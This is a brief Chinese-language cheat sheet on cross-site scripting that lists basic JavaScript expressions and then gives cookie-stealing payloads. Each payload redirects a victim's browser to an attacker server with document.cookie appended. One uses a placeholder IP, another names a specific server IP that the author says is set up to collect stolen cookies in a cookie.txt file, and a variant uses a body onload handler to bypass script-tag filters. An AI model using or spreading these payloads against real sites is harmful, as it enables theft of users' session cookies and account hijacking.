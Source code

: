 # XSS远程执行漏洞

### 常用js语句
````

document.cookie				用于js获取当前网页的cookie值
window.location.href			 用于获取当前页面地址链接
window.location.href='www.baidu.com'	  用于相当于跳转地址

````

常用playload：

````
<script>window.location.href='http://[ip]/xss.php?cookie='+document.cookie</script>
````
     




### 我直接买了一个服务器并且开放了读写权限可以拿来实验XSS

````
相关的ip和playload
<script>window.location.href='http://106.53.207.220/xss.php?cookie='+document.cookie</script>


回显请看
http://106.53.207.220/cookie.txt
````


## 绕过

* 过滤script标签


````
<body onload="document.location.href='http://[ip]/xss.php?xss='+document.cookie"></body>

````












